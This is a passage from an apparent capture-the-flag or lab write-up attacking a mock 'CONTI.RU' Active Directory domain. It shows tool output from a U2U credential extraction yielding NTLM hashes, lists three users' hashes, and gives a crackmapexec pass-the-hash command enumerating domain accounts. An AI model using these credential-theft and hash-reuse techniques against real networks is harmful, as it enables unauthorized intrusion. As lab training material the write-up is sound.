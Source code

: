 ```
[*] Getting credentials using U2U  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : EE91709B90200C5685533AB93888CCCD
```

It works! We are able to retrieve 3 NTLM hashes for 3 users in `CONTI.RU` domain:

| User reference | SamAccountName | NTLM                             |
|----------------|----------------|----------------------------------|
| A              | Наистина       | EE91709B90200C5685533AB93888CCCD |
| B              | Вячеслав       | 78DD51AEF64338AD248FF80B25849C44 |
| C              | Валерий        | BE5C60EC1E9ED48B1ACB5C87D555C6E2 |

We can now gather information on the domain via different tools (smbclient, rpcclient, cme, ...) and perform a BloodHound.py collection to search for privilege escalation paths.

User enumeration with user C:
```
$ crackmapexec smb 10.0.20.11 -u Валерий -H 'BE5C60EC1E9ED48B1ACB5C87D555C6E2' --users 
CONTI.RU\Администратор                  Встроенная учетная запись администратора компьютера/домена
CONTI.RU\Гость                          Встроенная учетная запись для доступа гостей к компьютеру или домену
CONTI.RU\krbtgt                         Учетная запись службы KDC
CONTI.RU\Алексей                        HR
CONTI.RU\Альберт                        Negotiates ransom with companies, creates darknet blogs
CONTI.RU\Анна                           works on cryptolocker, decrypts data for victims
CONTI.RU\Артур                          Boss 2
CONTI.RU\Вадим                          Negotiates ransom with companies, creates darknet blogs
CONTI.RU\Валерий                        top hacker
CONTI.RU\Виктор                         sysadmin, oversees botnets
CONTI.RU\Виолетта                       works on cryptolocker, decrypts data for victims
CONTI.RU\Вячеслав                       Hacker, works as intermediary between the group and the victims
CONTI.RU\Галрй                          HR / Legal
CONTI.RU\Григорий                       Sysadmin
CONTI.RU\Дарья                          Negotiates ransom with companies, creates darknet blogs
CONTI.RU\Денис                          Hacker, manager
CONTI.RU\Елизавета                      works on cryptolocker, decrypts data for victims
CONTI.RU\Зинаида                        Sysadmin
CONTI.RU\Илья                           works on cryptolocker, decrypts data for victims
CONTI.RU\Карина                         HR
CONTI.RU\Клавдия                        sysadmin, oversees botnets
CONTI.RU\Кльия                          technical manager, QA, side projects (blockhain, hackers' social network)
CONTI.RU\Кристина                       Alla Witte, the Trickbot developer
CONTI.RU\Ксения                         HR
CONTI.RU\Лариса                         Sysadmin
CONTI.RU\Наистина                       hacker
CONTI.RU\Наталья                        Boss 1
CONTI.RU\Пётр                           HR
CONTI.RU\Федор                          Developer
CONTI.RU\Феттаерт                       HR
CONTI.RU\Ярослав                        Developers' teamlead / OSINT research
```
